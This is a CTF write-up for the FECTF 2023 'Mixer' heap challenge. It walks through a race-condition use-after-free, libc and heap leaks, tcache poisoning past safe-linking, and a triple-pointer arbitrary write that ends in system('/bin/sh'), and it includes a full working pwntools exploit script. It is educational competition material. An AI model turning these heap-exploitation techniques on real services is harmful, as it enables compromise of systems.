

FECTF 2023 Download
Mixer [-]
Description
For this challenge, we are given a binary along with a corresponding libc 2.36. It came with the following description:
So... we've found this thing. Not really sure what it's for.
Running at
mixer.ctf:1337.Warning: be careful naming your namespace or other people may read your files!
TLDR
Triggering a race condition in f_load causes a dangling pointer to a freed chunk. Leaking pointers from overlapping chunks and carefully linking content pointers on the heap, turns tight restrictions into a powerful ARB-write primitive, which can be used to hijack program-flow.
Recon
Overview
Disassembling the program, we are presented with a program for creating, modifying and saving so-called "slots" . At the very beginning of execution, the user is prompted for a "namespace", which correlates to workspace folder on the target machine. To go along with this functionality, the program has a range of functions, best described by the included help page:
> help
use <filename>
Find a free slot for <filename>
fin <slot>
Finnish using <slot>
load <slot>
Load data from its associated file into <slot>
save <slot>
Write data in <slot> to its associated file
drop <slot>
Discard data in <slot>
rand <slot> <n>
Put <n> random bytes in <slot>
zero <slot> <n>
Put <n> zeros in <slot>
add,cpy,xor,alt,max,min <dst> <src>
Run operation on data in <dst> and <src>, storing the result in <dst>
list
List all slots
show <slot>
Show contents of <slot>
help
This
Slots consist of two parts, the name and the content, both allocated on the heap upon request. The exact structure is defined as:
typedef struct slot_t {
char *name;
size_t length;
char *content;
}
Interestingly, there doesn't appear to be any way to directly input data into these slots. The closest we have is the rand and zero functions, which will fill a slot with n bytes of either random or null bytes. On top of this, we have a range of functions for modifying existing slot content byte-wise, though once again, nothing that asserts direct control over the content.
Finding the bug
I was initially confused by the nature of this challenge. Since the challenge makes active use malloc and free, it was safe to assume that heap exploitation was in order. However, after looking through the program a few times, I simply came to the conclusion, that no conventional bugs are to be found in the program. Even the realloc in f_load that I initially suspected to be exploitable turned back nothing, as the program correctly overwrites the existing content pointer.
It was then I began to speculate. The challenge includes something I can only assume to be hint, reminding us that namespaces are available to everyone. Putting two and two together, I realized that a race condition might be possible.
Interestingly enough, the program has multiple glaring holes in its error handling. Through normal execution, these cases aren't really possible to hit. However, since the program handles files, it's entirely possible that one instance of the program could mess with data that another instance is already working with. This is in turn exploitable. Take the following code in f_load:
...
if ( length == read(fd2, slot->content, length) )
{
printf("Read %ldB into slot #%d\n", slot->length, v11);
close(fd2);
}
else
{
puts("Read failed");
free(slot->content);
}
}
}
If read fails to read length number of bytes, the program will assume that something went wrong, causing it to free the content chunk. Too bad it doesn't discard the pointer afterwards, leaving a dangling pointer to a freed chunk :)
Exploitation
Race condition POW
Before assembling an entire exploit around this idea, I first wanted to verify that this race condition is indeed possible. Assembling some python code, the following script should be able to trigger the given case:
""" Dupe code """
stop_dupe = False
def dupe_loader(conn, slot):
"""
This is the rc loader. It continuesly loads the dupe file until it hits a failed read,
meaning the size of the file has changed, and the chunk has been freed with a dangling pointer.
"""
while True:
load_conn(conn, slot)
res = conn.recvline()
if b"failed" in res:
return
def dupe_saver(conn, slot, size):
"""
This is the rc saver. It continuesly saves the same file, alternating between two sizes.
When the file size changes down during a read, read will return one less than expected in the loader.
"""
while not stop_dupe:
zero_conn(conn, slot, size + 1)
save_conn(conn, slot)
zero_conn(conn, slot, size)
save_conn(conn, slot)
def dupe_chunk(conn1, conn2, slot, size):
""" Runs the rc thread. """
global stop_dupe
t1 = Thread(target=dupe_saver, args=(conn2, slot, size))
t1.start()
dupe_loader(conn1, slot)
stop_dupe = True
t1.join()
# Start conn, the main tube we will be exploiting
conn = start()
use_namespace(conn, "test")
# Create a second conn to do the race condition
conn2 = start(no_gdb=True)
use_namespace(conn2, "test")
# Create a victim chunk to dupe
VICTIM = use("victim")
use_conn(conn2, "victim")
# Run the dupe and close the second connection
dupe_chunk(conn, conn2, 1, 0x417)
conn2.close()
The first thread, that being the main connection, continuously loads the file "victim" from disk. While this is happening, the second thread is spamming zero and save, saving two different sizes to the same file. When the file size goes from size + 1 to size while load is getting the size and reading the file, read will only read the available number of bytes, causing the error condition to be fulfilled. Running the code, we indeed get a freed dangling pointer:
pwndbg> malloc_chunk 0x558d757f05f0
Top chunk | PREV_INUSE
Addr: 0x558d757f05f0
Size: 0x20a11
pwndbg> search --pointer 0x558d757f0600
Searching for value: b'\x00\x06\x7fu\x8dU\x00\x00'
[heap] 0x558d757f02c8 0x558d757f0600
[stack] 0x7ffc1d7d3da0 0x558d757f0600
Getting leaks
Since the bug gives us a dangling pointer, we can easily utilize it to get leaks. For my exploit, I chose to simplify the process by doing a little more work. Libc pointers can of course be found in unsortedbin chunks, but instead of reading a tcache fd, we can easily bypass safe-linking by linking another unsortedbin chunk into the unsortedbin, and then reading a heap pointer from an fd or bk.
We can do this by allocating four chunks back from the unsortedbin, where the previous victim chunk was consolidated:
# Names of these new chunks will appear at the old victim chunk
DUP = use("dup")
G1 = use("guard1")
LINK = use("link")
G2 = use("guard2")
# Create two chunks outsize tcache and guards in between
zero(DUP, 0x418)
zero(G1, 0x18)
zero(LINK, 0x418)
zero(G2, 0x18)
# Free both of them, they will now point at each other
drop(DUP)
drop(LINK)
# Leaking VICTIM will leak into the DUP chunk, which contains libc and heap pointers
show(VICTIM)
conn.recvline()
leak = conn.recvuntil(b"(No", drop=True)[128:]
libc_leak = leak[:8]
heap = leak[8:16]
heap = u64(heap) - 0xab0
libc.address = u64(libc_leak) - 0x1d2cc0
print(f"heap @ {hex(heap)}")
print(f"libc @ {hex(libc.address)}")
What to do now?
As i mentioned in the recon section, we have no way to directly input data into slots. If we did, the rest of the exploit would be simple; poison the tcache, pointing it at any exposed function pointers, then hijack program flow.
We can technically control slot names directly. However, the program will return with an error, if the input contains non-alphanumeric values, and because of that, nothing will ever be written, and no chunk will ever be allocated.
Instead, we will have to result to more unique exploitation strategies. I assume there are multiple ways to go from here. The method I chose, is what I would like to call the triple pointer approach.
Take the setup displayed below:

As we can see, PTR 3 is pointing at PTR 2 which is pointing at PTR 1. Using this configuration, we can edit each byte of PTR 1, by simply incrementing the value at PTR 2, which is PTR 1. When we are done with a given byte of PTR 1, we simply use PTR 3 to increment PTR 2, from which we can then edit the next byte of PTR 1. By doing this repeatedly, we can forge entire pointers inside PTR 1. We can then repeat the same method, incrementing each byte at the target.
This method assumes that we are able to increment values, which I will explain in the following section. Other than that, once this setup has been achieved, we can write any amount of data at any place in the binary, achieving a full arbitrary write.
Creating incrementors
For the following exploit, I will need the ability to somehow control the data inside of a slots content. In order to do that, I will generate slots that contain the bytes 0x01, 0x0001 and 0x0100. The length two incrementors are used to increment slots of length 2, since the program otherwise wraps and increments both bytes by 1 (though you could technically get away without these).
Initially, I simply randomized a single byte until it became 0x01. This theoretically works, and should return the correct value in about 180 tries on average. However, something about the use of urandom seems to make it unstable, and the program will often hang.
Instead, I will use the cyclic nature of numbers over modulo 256. I can simply generate a random number, then calculate its modulo inverse, that being the number $a$ such that $ax\equiv1\space (\text{mod}\space256)$ for a given $a$. In python, this can be done by simply taking x = pow(a, -1, 256).
The following script does just that, including some extra code for generating 0x0001 and 0x0100. Once these have been created, they can simply be saved to disk, such that we don't need to create them again.
def create_incrementors():
"""
Creates the incrementor slots, ie. the slots containing \x01, \x00\x01 and \x01\x00.
I initially just randomized the chunk until i got a one, but that whas unstable, probably because of opening urandom.
Here, I use rand to generate a number with a modulo invers of less than 50, after which i just add the number n times to itself.
This works basically all the time. This file won't be run while the files exist on the remote.
"""
period = 999999
TEMP = use("temp")
# Initialize the slots with values
zero(ONE, 1)
zero(ONE_ZERO, 2)
zero(ZERO_ONE, 2)
# Iterate until the modulo invers is less than 51
while period > 50:
# Get a single random byte
rand(ONE, 1)
show(ONE)
conn.recvline()
val = conn.recvuntil(b"(", drop=True)[0]
# python throws a ValueError if the number is not inversable
try:
period = pow(val, -1, 0x100)
except ValueError:
pass
# Duplicate the \x01 into a temporary slot
zero(TEMP, 1)
cpy(TEMP, ONE)
# Add the number to itself `period` times
for i in range(period - 1):
add(ONE, TEMP)
# This is a bit of trickery
# We can use the alt function to create \x00\x01 and \x01\x00
cpy(ZERO_ONE, ONE)
alt(ZERO_ONE, ONE_ZERO)
alt(ONE_ZERO, ONE)
# Save all the files for future usage
save(ONE)
save(ONE_ZERO)
save(ZERO_ONE)
# Save is an implicit drop, so we need to load them again
load(ONE)
load(ONE_ZERO)
load(ZERO_ONE)
# Finally, we can delete the temporary slot
fin(TEMP)
Setting up the pointers
I will first create the slots for PTR and PTRPTR, such that their names aren't subject to the dupe. Afterwards, we free a few chunks into the tcache to populate it, including the chunk on top of the old victim chunk, which in this case is the name field of the "dup" slot.
# Create PTR and PTRPTR
PTR = use("ptr")
zero(PTR, 1)
PTRPTR = use("ptrptr")
zero(PTRPTR, 1)
# Link a few chunks into tcache
fin(G1)
fin(G2)
fin(DUP)
Victim now points at the encrypted fd of a 0x20 size tcache bin. We can now use the incrementors we created, in order to modify the lower two bytes of the pointer, redirecting the tcache:
# VICTIM points at the DUP chunks name chunk.
# By freeing it, then writing to it with VICTIM, we can poison the tcache.
zero(VICTIM, 2)
# Calculate the address to place by safe-linking
# In this case, target is a pointer to the pointer in PTRPTR
target = heap + 0x3a0 # Pointer to PTRPTR
val = target ^ (heap >> 12)
val1 = val & 0xff
val2 = (val >> 8) & 0xff
# Increment to redirect the tcache
for i in range(val1):
add(VICTIM, ONE_ZERO)
for i in range(val2):
add(VICTIM, ZERO_ONE)
Notice that the zero function reallocates the chunk at victim, but since we are dealing with tcache, realloc doesn't react to the fact that the chunk is already freed. If this were a problem, it could easily be bypassed.
After redirecting the tcache, we can create a new slot. The fake chunk is currently second in line, so the first allocation for a name field returns a real chunk, while the content field receives the fake chunk:
# Allocating now comes from our fake pointer, giving us a pointer to PTRPTR
PTRPTRPTR = use("ptrptrptr")
zero(PTRPTRPTR, 2)
Since PTRPTRPTR is pointing at PTRPTR, we simply need to redirect PTRPTR into PTR to create the full chain. We can do the exact same as before, just without the encryption:
# We now do the same thing, but into PTR instead
val = heap + 0x388 # Pointer to PTR
val1 = val & 0xff
val2 = (val >> 8) & 0xff
for i in range(val1):
add(PTRPTRPTR, ONE_ZERO)
for i in range(val2):
add(PTRPTRPTR, ZERO_ONE)
This completes the chain, linking PTRPTRPTR -> PTRPTR -> PTR. Using the following functions, we can redirect PTR to any place in the binary, then write any value into the given address:
def write_ptr_val(target):
"""
Writes a pointer into the PTR slot for use in ARB write.
Also resets PTRPTR to the start of PTR.
"""
for i in range(0, 64, 8):
byte = (target >> i) & 0xff
# Clear the given byte, easier than knowing it
cpy(PTRPTR, ONE)
xor(PTRPTR, ONE)
# Add 1 until we have the desired value
for j in range(byte):
add(PTRPTR, ONE)
# Increment PTRPTR by one
add(PTRPTRPTR, ONE_ZERO)
# Reset PTRPTR
for i in range(256 - 8):
add(PTRPTRPTR, ONE_ZERO)
def write_val(target):
"""
Writes a value into the pointer in PTR.
"""
for i in range(0, 64, 8):
byte = (target >> i) & 0xff
# Again, clear the byte at the given address
cpy(PTR, ONE)
xor(PTR, ONE)
# Increment to the desired value
for j in range(byte):
add(PTR, ONE)
# Add one to PTR
add(PTRPTR, ONE)
ARB-write to shell
At last, we need to turn this arbitrary write into a shell. There are multiple options for doing this. The binary itself features only partial RELRO, so attacking the GOT is a valid option. However, the program also keeps function pointers on the heap. These are easy to exploit, since we always control the first parameter of the function call.
I chose to overwrite the f_use function with the following calls:
# Overwrite the f_use pointer with system
write_ptr_val(heap + 0x450)
write_val(libc.sym.system)
Since f_use -> system, calling f_use("/bin/sh") will instead call system("/bin/sh"). We can therefore trigger a shell by simply calling it:
# Since use points at system, we get system("/bin/sh")
use("/bin/sh")
Solution
Below is the my full solve script, including the creation of incrementors. This challenge took quite a bit of creativity in order to solve. From talking with another team, I know there to be at least two different approaches. The nature of this other approach, I am not aware of.
As a small side note, this exploit is possible to do with only two pointers, provided you only need to write to the heap. For the sake of the given exploit, linking three pointers is overkill. It does however create the possibility for complete ARB-write, which I find rewarding by itself :)
from pwn import *
from threading import Thread
BINARY = "./mixer_patched"
HOST = "mixer.ctf"
PORT = 1337
elf = context.binary = ELF(BINARY, checksec=False)
libc = ELF([lib for lib in elf.libs if '/libc.' in lib or '/libc-' in lib][0], checksec=False)
context.log_level = "WARNING"
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P', '-p', '70']
context.gdbinit = "~/.gdbinit_splitmind"
env = {} # {"LD_LIBRARY_PATH": "./", "LD_PRELOAD": ""}
gdbscript = '''
c
'''
def start(no_gdb=False):
if args.REMOTE:
return connect(HOST, PORT)
elif args.RAW or no_gdb:
return process(BINARY, env=env)
else:
return gdb.debug(BINARY, gdbscript=gdbscript, env=env)
""" Code to manage allocated blocks, only for main connection """
occupied = [False]* 16
def alloc():
for i in range(0, 16):
if not occupied[i]:
occupied[i] = True
return i + 1
return None
def free(i):
occupied[i - 1] = False
""" Meta functions to make interaction easier """
def use(name):
conn.sendlineafter(b"> ", f"use {name}".encode())
return alloc()
def fin(idx):
conn.sendlineafter(b"> ", f"fin {idx}".encode())
free(idx)
def load(idx):
conn.sendlineafter(b"> ", f"load {idx}".encode())
def save(idx):
conn.sendlineafter(b"> ", f"save {idx}".encode())
def drop(idx):
conn.sendlineafter(b"> ", f"drop {idx}".encode())
def rand(idx, n):
conn.sendlineafter(b"> ", f"rand {idx} {n}".encode())
def zero(idx, n):
conn.sendlineafter(b"> ", f"zero {idx} {n}".encode())
def add(idx1, idx2):
conn.sendlineafter(b"> ", f"add {idx1} {idx2}".encode())
def cpy(idx1, idx2):
conn.sendlineafter(b"> ", f"cpy {idx1} {idx2}".encode())
def xor(idx1, idx2):
conn.sendlineafter(b"> ", f"xor {idx1} {idx2}".encode())
def alt(idx1, idx2):
conn.sendlineafter(b"> ", f"alt {idx1} {idx2}".encode())
def min(idx1, idx2):
conn.sendlineafter(b"> ", f"min {idx1} {idx2}".encode())
def max(idx1, idx2):
conn.sendlineafter(b"> ", f"max {idx1} {idx2}".encode())
def show(idx):
conn.sendlineafter(b"> ", f"show {idx}".encode())
""" Additional functions supporting tubes by args """
def use_conn(conn, name):
conn.sendlineafter(b"> ", f"use {name}".encode())
def load_conn(conn, idx):
conn.sendlineafter(b"> ", f"load {idx}".encode())
def save_conn(conn, idx):
conn.sendlineafter(b"> ", f"save {idx}".encode())
def zero_conn(conn, idx, n):
conn.sendlineafter(b"> ", f"zero {idx} {n}".encode())
def use_namespace(conn, namespace):
conn.sendlineafter(b"> ", namespace.encode())
""" Dupe code """
stop_dupe = False
def dupe_loader(conn, slot):
"""
This is the rc loader. It continuesly loads the dupe file until it hits a failed read,
meaning the size of the file has changed, and the chunk has been freed with a dangling pointer.
"""
while True:
load_conn(conn, slot)
res = conn.recvline()
if b"failed" in res:
return
def dupe_saver(conn, slot, size):
"""
This is the rc saver. It continuesly saves the same file, alternating between two sizes.
When the file size changes down during a read, read will return one less than expected in the loader.
"""
while not stop_dupe:
zero_conn(conn, slot, size + 1)
save_conn(conn, slot)
zero_conn(conn, slot, size)
save_conn(conn, slot)
def dupe_chunk(conn1, conn2, slot, size):
""" Runs the rc thread. """
global stop_dupe
t1 = Thread(target=dupe_saver, args=(conn2, slot, size))
t1.start()
dupe_loader(conn1, slot)
stop_dupe = True
t1.join()
def create_incrementors():
"""
Creates the incrementor slots, ie. the slots containing \x01, \x00\x01 and \x01\x00.
I initially just randomized the chunk until i got a one, but that whas unstable, probably because of opening urandom.
Here, I use rand to generate a number with a modulo invers of less than 50, after which i just add the number n times to itself.
This works basically all the time. This file won't be run while the files exist on the remote.
"""
period = 999999
TEMP = use("temp")
# Initialize the slots with values
zero(ONE, 1)
zero(ONE_ZERO, 2)
zero(ZERO_ONE, 2)
# Iterate until the modulo invers is less than 51
while period > 50:
# Get a single random byte
rand(ONE, 1)
show(ONE)
conn.recvline()
val = conn.recvuntil(b"(", drop=True)[0]
# python throws a ValueError if the number is not inversable
try:
period = pow(val, -1, 0x100)
except ValueError:
pass
# Duplicate the \x01 into a temporary slot
zero(TEMP, 1)
cpy(TEMP, ONE)
# Add the number to itself `period` times
for i in range(period - 1):
add(ONE, TEMP)
# This is a bit of trickery
# We can use the alt function to create \x00\x01 and \x01\x00
cpy(ZERO_ONE, ONE)
alt(ZERO_ONE, ONE_ZERO)
alt(ONE_ZERO, ONE)
# Save all the files for future usage
save(ONE)
save(ONE_ZERO)
save(ZERO_ONE)
# Save is an implicit drop, so we need to load them again
load(ONE)
load(ONE_ZERO)
load(ZERO_ONE)
# Finally, we can delete the temporary slot
fin(TEMP)
def write_ptr_val(target):
"""
Writes a pointer into the PTR slot for use in ARB write.
Also resets PTRPTR to the start of PTR.
"""
for i in range(0, 64, 8):
byte = (target >> i) & 0xff
# Clear the given byte, easier than knowing it
cpy(PTRPTR, ONE)
xor(PTRPTR, ONE)
# Add 1 until we have the desired value
for j in range(byte):
add(PTRPTR, ONE)
# Increment PTRPTR by one
add(PTRPTRPTR, ONE_ZERO)
# Reset PTRPTR
for i in range(256 - 8):
add(PTRPTRPTR, ONE_ZERO)
def write_val(target):
"""
Writes a value into the pointer in PTR.
"""
for i in range(0, 64, 8):
byte = (target >> i) & 0xff
# Again, clear the byte at the given address
cpy(PTR, ONE)
xor(PTR, ONE)
# Increment to the desired value
for j in range(byte):
add(PTR, ONE)
# Add one to PTR
add(PTRPTR, ONE)
# ----------------------------------- RACE CONDITION -----------------------------------
# Start conn, the main tube we will be exploiting
conn = start()
use_namespace(conn, "test")
# Create a second conn to do the race condition
conn2 = start(no_gdb=True)
use_namespace(conn2, "test")
# Create a victim chunk to dupe
VICTIM = use("victim")
use_conn(conn2, "victim")
# Run the dupe and close the second connection
dupe_chunk(conn, conn2, 1, 0x417)
conn2.close()
# ----------------------------------- LEAKING VALUES -----------------------------------
"""
Upon running the dupe, victim is actually freed into the top chunk.
Afterwars, we can simply allocate new chunks on top of it, and read their entire content.
"""
# Names of these new chunks will appear at the old victim chunk
DUP = use("dup")
G1 = use("guard1")
LINK = use("link")
G2 = use("guard2")
# Create two chunks outsize tcache and guards in between
zero(DUP, 0x418)
zero(G1, 0x18)
zero(LINK, 0x418)
zero(G2, 0x18)
# Free both of them, they will now point at each other
drop(DUP)
drop(LINK)
"""
You can technically leak the heap without linking two unsortedbin chunks,
but this has the advantage of bypassing safe-linking encryption.
"""
# Leaking VICTIM will leak into the DUP chunk, which contains libc and heap pointers
show(VICTIM)
conn.recvline()
leak = conn.recvuntil(b"(No", drop=True)[128:]
libc_leak = leak[:8]
heap = leak[8:16]
heap = u64(heap) - 0xab0
libc.address = u64(libc_leak) - 0x1d2cc0
print(f"heap @ {hex(heap)}")
print(f"libc @ {hex(libc.address)}")
# ------------------------------- CREATING INCREMENTORS -------------------------------
# Create slots for the incrementors
ONE = use("one")
ONE_ZERO = use("onezero")
ZERO_ONE = use("zeroone")
load(ONE)
resp = conn.recvline()
# If the incrementors do not exist on disk, we must create them
if b"Could not" in resp:
print("Incrementors do not exist, creating...")
create_incrementors()
else:
# Load the remaining incrementors from disk
print("Incrementors already present on disk, skipping creation...")
load(ONE_ZERO)
load(ZERO_ONE)
# ---------------------------------- CREATING CHAIN ----------------------------------
"""
By slot, PTRPTRPTR -> PTRPTR -> PTR -> VAL.
This gives us the unique ability to modify the entirety of VAL by:
* Incrementing PTR to each of VALs byte
* Incrementing PTRPTR to each of PTRs bytes.
At last, PTRPTRPTR must simply point at PTRPTR.
"""
# Create PTR and PTRPTR
PTR = use("ptr")
zero(PTR, 1)
PTRPTR = use("ptrptr")
zero(PTRPTR, 1)
# Link a few chunks into tcache
fin(G1)
fin(G2)
fin(DUP)
# VICTIM points at the DUP chunks name chunk.
# By freeing it, then writing to it with VICTIM, we can poison the tcache.
zero(VICTIM, 2)
# Calculate the address to place by safe-linking
# In this case, target is a pointer to the pointer in PTRPTR
target = heap + 0x3a0 # Pointer to PTRPTR
val = target ^ (heap >> 12)
val1 = val & 0xff
val2 = (val >> 8) & 0xff
# Increment to redirect the tcache
for i in range(val1):
add(VICTIM, ONE_ZERO)
for i in range(val2):
add(VICTIM, ZERO_ONE)
# Allocating now comes from our fake pointer, giving us a pointer to PTRPTR
PTRPTRPTR = use("ptrptrptr")
zero(PTRPTRPTR, 2)
# We now do the same thing, but into PTR instead
val = heap + 0x388 # Pointer to PTR
val1 = val & 0xff
val2 = (val >> 8) & 0xff
for i in range(val1):
add(PTRPTRPTR, ONE_ZERO)
for i in range(val2):
add(PTRPTRPTR, ZERO_ONE)
# ---------------------------------- DROPPING SHELL ----------------------------------
"""
We now have a very powerful primitive, despite the tight restrictions on input.
We first point PTR towards the pointer to f_use, then write the address of system.
"""
# Overwrite the f_use pointer with system
write_ptr_val(heap + 0x450)
write_val(libc.sym.system)
# Since use points at system, we get system("/bin/sh")
use("/bin/sh")
conn.interactive()